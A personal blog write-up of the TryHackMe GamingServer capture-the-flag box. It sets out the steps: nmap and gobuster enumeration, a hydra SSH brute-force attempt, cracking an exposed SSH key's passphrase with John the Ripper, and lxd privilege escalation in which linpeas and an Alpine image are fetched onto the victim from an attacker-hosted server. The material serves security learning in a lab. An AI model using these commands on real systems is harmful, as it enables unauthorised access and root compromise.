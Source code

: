 ```yaml
---
permalink: /GamingWriteup.html
---
```


![thumbnail](https://i.imgur.com/lZRim5g.jpg | 250x250)

## Tryhackme Gaming Server Writeup.

This writeup is on the [Tryhackme GamingServer](https://tryhackme.com/room/gamingserver) machine.
It is an easy level machine, and is described as: > An Easy Boot2Root box for beginners

This is how I got both flags.

## Enumerating.

First, I started off with a simple nmap scan.

```
nmap -sC -sV -v -oA gamingserver *machine_ip*
```

This showed me that there were two ports open on the machine, port 22 for *SSH* and port 80 for *HTTP*

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:0e:fe:06:12:67:3e:a4:eb:ab:7a:c4:81:6d:fe:a9 (RSA)
|   256 49:61:1e:f4:52:6e:7b:29:98:db:30:2d:16:ed:f4:8b (ECDSA)
|_  256 b8:60:c4:5b:b7:b2:d0:23:a0:c7:56:59:5c:63:1e:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: House of danak
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Since there was a webpage, I directed my attention there first. 
Simply checking the source of the websites index page showed a comment at the bottom referring to a user named *john*
I ran hydra in the background to attempt to bruteforce his password, but nothing came up.

```
hydra -l john -P *path to wordlist* *machine_ip* ssh
```

Running gobuster using the common.txt wordlist from dirb revealed a /secret directory and an /uploads directory.
The /secret directory seemed out of place, so I checked there first.

![Secret Page](https://i.imgur.com/FYrdjNd.png)

In the /secret index there was a single file named *"SecretKey"* and opening it revealed a private ssh key.
I copied it to my folder and gave it the right permissions.

```
chmod 600 SecretKey
```

Under the folder /uploads there were a few files and a wordlist which I assumed would be for bruteforcing something. So I saved it to my machine.

![wordlist](https://i.imgur.com/BoiE8ui.png)

Simply ssh'ing into the machine under *John* prompted us with a password for the ssh key. No problem.
John the ripper should be good enough for this job!.
First i used ssh2john to format the key into something john the ripper can read.

```
/usr/share/john/ssh2john.py SecretKey > keyhash
```
Next, I ran the wordlist I found earlier in the uploads directory on the hash.

```
john keyhash -w=dict.lst
```

Boom! Found it!

![password](https://i.imgur.com/gvMwN2e.png)

## Getting User.txt

Now I have a way to access the machine, we can use ssh to log in as the *John* user.

```
ssh -i SecretKey john@machine_ip
```

When prompted for a passphrase, we enter the one found by john the ripper earlier.

Now all we have to do is *ls* and we have the user.txt

![lstouser](https://i.imgur.com/QWbXKr5.png)

## Privesc to Root.txt

This one stumped me for a second, I haven't heard of this privesc until now,
so finding it was more tedious than it should've.

Let's run linpeas on the machine to find any privesc vectors.
First, we create a python server in the folder where we have our [Linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) script stored.

```
*ATTACKER MACHINE* sudo python3 -m http.server
```

Then we download the script on the victim machine

```
*VICTIM MACHINE* wget attacker_ip:8000/linpeas.sh
```
From there it's as simple as running chmod and executing the script.

```
chmod +x linpeas.sh
./linpeas.sh
```

Once linpeas is finished, we need to find anything red, or highlighted. Highlighted items are 99% of the time privesc vectors, and red items are ones that should
be checked out if none of the highlighted items work.
Here, we can see that root and lxd are highlighted.

![linpeasr](https://i.imgur.com/ZcRVxi2.png)

Initially I thought it would be as simple as running *sudo su* and gaining root privs, but that just led me down a rabbit hole of scouring the machine for johns
real credentials.
After a while, I realised that the lxc item was the privesc vector I was supposed to be focusing on, so after a bit of googling I found [This Privesc](https://www.exploit-db.com/exploits/46978) on exploit-db
To use this privesc, we must first download a build script on our attacker machine and make a tar.gz file to be uploaded to the victim machine.
This is done with:

```wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine```

After that, we compile/build it with:

```sudo bash build-alpine```

After running this commmand, we should have an alpine.tar.gz in our attacker directory. This will be uploaded to the victim machine.
As before with linpeas, we must start a python server on our attacker machine.

```*ATTACKER MACHINE* sudo python3 -m http.server```

And upload it to the victim.

```*VICTIM MACHINE* wget attacker_ip:8000/alpine-v3.12-x86_64-20200831_1414.tar.gz```

The exploit then requires that we run a script to complete the privesc, it's on the exploit-db page linked above.
What I did was create an sh script with:

```nano exploit.sh``` 

And copy paste the script from the exploit-db page to the script on the victims machine, and then chmod +x the script to make it executable.

```chmod +x exploit.sh```

Once we run the script, we should achieve the privesc and become root.

```./exploit.sh -f alpine-v3.12-x86_64-20200831_1414.tar.gz```

Boom! We have achieved root privileges!!

![root](https://i.imgur.com/blIf2iY.png)

Once we cd to /mnt/root/root we can *ls* and find our sweet, sweet, root.txt

![rootxt](https://i.imgur.com/uEVyjAm.png)

## Thank you for reading!

This was a fun machine, thank you to the creator and thank you to YOU! for reading my writeup.
Until next time. :)
Stay sane.



